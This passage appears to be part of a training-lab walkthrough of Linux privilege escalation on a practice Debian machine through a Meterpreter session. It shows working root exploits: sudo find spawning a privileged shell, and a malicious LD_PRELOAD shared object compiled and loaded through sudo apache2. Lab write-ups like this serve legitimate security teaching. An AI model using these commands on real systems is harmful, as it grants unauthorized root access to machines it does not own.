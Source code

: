 #### 2.1.1 - Exploit

```
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2510 created.
Channel 20 created.
TCM@debian:~$ sudo find . -exec /bin/bash -p \; -quit
sudo find . -exec /bin/bash -p \; -quit
root@debian:/home/user# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user#
```

### 2.2 - LD_PRELOAD

#### 2.2.1 - Detect

```
meterpreter > execute -if sudo -a "-l"
Process 2673 created.
Channel 23 created.
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD
..[snip]..
```

#### 2.2.2 - Exploit

```
meterpreter > mkdir exploit
Creating directory: exploit
meterpreter > cd exploit/
meterpreter > edit shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
meterpreter > execute -if gcc -a "-fPIC -shared -o shell.so shell.c -nostartfiles"
Process 2698 created.
Channel 25 created.
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2710 created.
Channel 26 created.
cd exploit
TCM@debian:~/exploit$ sudo LD_PRELOAD=~/exploit/shell.so apache2
root@debian:/home/user# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# exit
exit
exit
apache2: bad user name ${APACHE_RUN_USER}
TCM@debian:~$ exit
exit
exit
```
